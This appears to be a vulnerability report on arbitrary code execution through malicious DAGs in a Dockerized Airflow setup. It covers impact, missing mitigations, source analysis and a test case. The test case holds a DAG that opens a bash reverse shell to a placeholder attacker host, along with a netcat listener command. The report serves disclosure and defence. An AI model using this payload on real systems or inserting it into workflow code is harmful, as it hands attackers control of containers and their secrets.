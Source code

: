 - Vulnerability Name: Arbitrary Code Execution via Malicious DAGs
- Description:
    - An attacker can upload a malicious DAG (Directed Acyclic Graph) file, which is a Python script, through the Airflow web UI or by placing it in the `dags` folder mounted to the Docker container.
    - Airflow scheduler parses and executes DAGs to manage workflows.
    - If a DAG contains malicious Python code, this code will be executed by the Airflow components (Scheduler, Worker, or Webserver depending on where the DAG is processed or triggered) within the Docker container.
    - This can lead to arbitrary code execution within the container's environment.
- Impact:
    - Full control of the Airflow Docker container.
    - Ability to access secrets, environment variables, and data within the container.
    - Potential to pivot to other services or the host system depending on the Docker configuration and network setup.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None. The project does not implement any mitigations against malicious DAGs. It relies on the user to upload trusted DAGs.
- Missing Mitigations:
    - DAG validation and sanitization: Implement checks to scan uploaded DAG files for potentially malicious code patterns or system calls before parsing and execution.
    - Role-Based Access Control (RBAC): While Airflow has RBAC, this project in a local development context is unlikely to have it configured strictly. Enforce proper RBAC within Airflow to limit who can upload and manage DAGs.
    - Container security hardening: Implement security best practices for the Docker container itself to limit the impact of arbitrary code execution, such as running Airflow processes with a non-root user (already implemented as user `airflow`), using minimal base images, and applying security profiles (e.g., seccomp, AppArmor).
    - Documentation and warnings: Clearly document the risk of uploading untrusted DAGs and advise users to only upload DAGs from trusted sources. While README.md mentions "Security" section, it only links to CONTRIBUTING.md, which further links to vulnerability reporting, not mitigation of DAG based attacks.
- Preconditions:
    - Access to the Airflow web UI (typically exposed on port 8080 when using `docker compose up`).
    - Ability to upload or place DAG files in the designated `dags` folder within the Docker container. In local development setup described in README.md, the `./dags` folder on host is mounted to `/usr/local/airflow/dags` in container.
- Source Code Analysis:
    - The provided project files themselves do not introduce this vulnerability, as it's inherent to Apache Airflow's design of executing user-provided Python DAGs.
    - The `README.md` provides instructions on how to run Airflow locally, which includes mounting the `./dags` directory:
    ```markdown
    volumes:
        - ./dags:/usr/local/airflow/dags
    ```
    - This mounting allows users to easily add DAG files to the Airflow environment.
    - The `docker-compose.yaml` and `docker-compose-test-commands.yaml` also define volumes including `./dags:/usr/local/airflow/dags`, confirming the intended DAG loading mechanism.
    - The Dockerfiles (`/code/images/airflow/2.9.2/Dockerfiles/Dockerfile`, etc.) use the base image `amazon-mwaa-docker-images/airflow:2.9.2-base` and set `ENTRYPOINT ["python3", "-m", "mwaa.entrypoint"]` and `CMD shell`, which starts the Airflow components. The `mwaa.entrypoint` script ( `/code/images/airflow/2.10.1/python/mwaa/entrypoint.py` ) then launches Airflow components (webserver, scheduler, worker, etc.).
    - The vulnerability lies in the design of Airflow itself, where DAGs are treated as code and executed. This project simply provides a Dockerized environment to run Airflow locally, inheriting this inherent risk if untrusted DAGs are used.

- Security Test Case:
    - Step 1: Set up the Airflow environment using the provided `run.sh` script as described in `README.md`.
    - Step 2: Create a malicious DAG file (e.g., `malicious_dag.py`) in the `./dags` directory with the following Python code:
    ```python
    from airflow import DAG
    from airflow.operators.python import PythonOperator
    from datetime import datetime

    with DAG(
        dag_id='malicious_dag',
        schedule_interval=None,
        start_date=datetime(2024, 1, 1),
        catchup=False
    ) as dag:
        def execute_malicious_code():
            import subprocess
            # Reverse shell to attacker's machine (replace with your IP and port)
            subprocess.Popen(['/bin/bash', '-c', 'bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1'])

        run_malicious_code = PythonOperator(
            task_id='run_malicious_code',
            python_callable=execute_malicious_code,
        )
    ```
    *(Replace `attacker_ip` and `attacker_port` with the attacker's listening IP address and port.)*
    - Step 3: Start a listener on the attacker's machine using `nc -lvnp attacker_port`.
    - Step 4: Upload `malicious_dag.py` to the Airflow instance, either by copying it to the `./dags` directory which is mounted to the container, or by using the Airflow UI if DAG upload functionality is enabled and accessible.
    - Step 5: Unpause or trigger the `malicious_dag` DAG in the Airflow Web UI (http://localhost:8080).
    - Step 6: Observe that a reverse shell connection is established on the attacker's machine, indicating successful arbitrary code execution within the Airflow Docker container.